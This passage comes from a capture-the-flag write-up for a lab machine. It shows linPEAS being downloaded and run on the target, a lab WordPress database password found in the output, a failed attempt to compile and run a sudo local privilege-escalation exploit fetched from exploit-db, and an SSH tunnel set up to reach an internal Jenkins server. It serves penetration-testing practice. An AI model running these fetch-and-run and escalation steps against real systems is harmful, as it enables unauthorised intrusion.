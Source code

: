 From the Kali system

``` sh
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
scp linpeas.sh aubreanna@10.10.156.30:~/linpeas.sh
```

On the target machine as aubreanna:

``` sh
chmod +x linpeas.sh
./linpeas.sh
```

Interessting finds are the mysqladmin credentials:

```log
╔══════════╣ Analizing Wordpress Files (limit 70)
-rw-r--r-- 1 root root 3109 Aug  3  2020 /var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );
define( 'DB_HOST', 'localhost' );
```

We also see we have Sudo running in version```1.8.21``` and a check with searchsploit```searchsploit sudo``` reveals a vulnerability to```1.8.20``` "Sudo 1.8.20 - 'get_process_ttyname()' Local Privilege Escalation", but no luck running the [exploit](https://www.exploit-db.com/raw/42183).

@Kali

``` sh
wget -O exploit.c https://www.exploit-db.com/raw/42183
gcc -o exploit exploit.c
scp exploit aubreanna@10.10.156.30:~/exploit
```

@aubreanna@internal

``` sh
chmod +x exploit
./exploit
died in main: 57
```

I tried changing the c code but felt like a script kiddy as errors just moved on... so I gave up on this.

## Jenkins

In the home folder of aubreanna there is txt mentioning a local jenkins server.

From kali lets tunnel local port 31340 with ssh to "127.0.0.1:8080" on internal.thm (which we modified at the beginning).

``` sh
ssh -g -L31340:127.0.0.1:8080 -l aubreanna internal.thm
```
